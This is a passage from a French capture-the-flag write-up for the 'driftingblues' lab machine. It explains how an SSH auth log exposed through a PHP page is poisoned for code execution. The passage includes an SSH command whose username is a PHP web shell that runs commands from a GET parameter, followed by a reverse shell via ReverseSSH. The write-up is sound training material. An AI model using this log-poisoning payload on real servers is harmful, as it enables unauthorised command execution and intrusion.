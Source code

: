 Le blues des logs
-----------------

Cette URL a un contenu similaire à ceci :  

```plain
#######################################################################
ssh auth log
============
i hope some wacky and uncharacteristic thing would not happen
this job is fucking poisonous and im boutta planck length away from quitting this hoe
-abuzer komurcu
#######################################################################

Jan 20 01:46:44 driftingblues sshd[703]: Did not receive identification string from 192.168.56.1 port 59838
Jan 20 01:46:50 driftingblues sshd[704]: Protocol major versions differ for 192.168.56.1 port 59840: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2 vs. SSH-1.5-Nmap-SSH1-Hostkey
Jan 20 01:46:50 driftingblues sshd[705]: Protocol major versions differ for 192.168.56.1 port 59842: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2 vs. SSH-1.5-NmapNSE_1.0
Jan 20 01:46:50 driftingblues sshd[706]: Unable to negotiate with 192.168.56.1 port 59844: no matching host key type found. Their offer: ssh-dss [preauth]
Jan 20 01:46:50 driftingblues sshd[708]: Connection closed by 192.168.56.1 port 59848 [preauth]
Jan 20 01:46:50 driftingblues sshd[710]: Connection closed by 192.168.56.1 port 59850 [preauth]
Jan 20 01:46:50 driftingblues sshd[712]: Unable to negotiate with 192.168.56.1 port 59852: no matching host key type found. Their offer: ecdsa-sha2-nistp384 [preauth]
Jan 20 01:46:50 driftingblues sshd[714]: Unable to negotiate with 192.168.56.1 port 59854: no matching host key type found. Their offer: ecdsa-sha2-nistp521 [preauth]
Jan 20 01:46:50 driftingblues sshd[716]: Connection closed by 192.168.56.1 port 59856 [preauth]
Jan 20 01:47:01 driftingblues CRON[718]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 20 01:47:01 driftingblues CRON[718]: pam_unix(cron:session): session closed for user root
```

Ce qui est intéressant c'est que la ligne Nmap est très certainement de notre fait. Deux possibilités alors : soit le script PHP fait un *readfile()* sur le fichier de log soit une tache CRON ajoute le contenu du log à la fin du fichier PHP.  

La seconde option semble plus valide car si j'essaye un login SSH avec un compte invalide il se passe un moment avant que n'apparaisse la ligne suivante :  

```plain
Jan 20 01:55:19 driftingblues sshd[762]: Invalid user zozo from 192.168.56.1 port 59860
```

Il n'y a plus qu'à confirmer cette hypothèse avec l'injection de PHP dans les logs :  

```bash
ssh -l '<?php system($_GET[chr(99)]); ?>' 192.168.56.8
```

Et bada bing bada boom on obtient notre exécution de commande qu'on converti immédiatement en un beau shell PTY à l'aide de [ReverseSSH](https://github.com/Fahrj/reverse-ssh).  

Robery
------
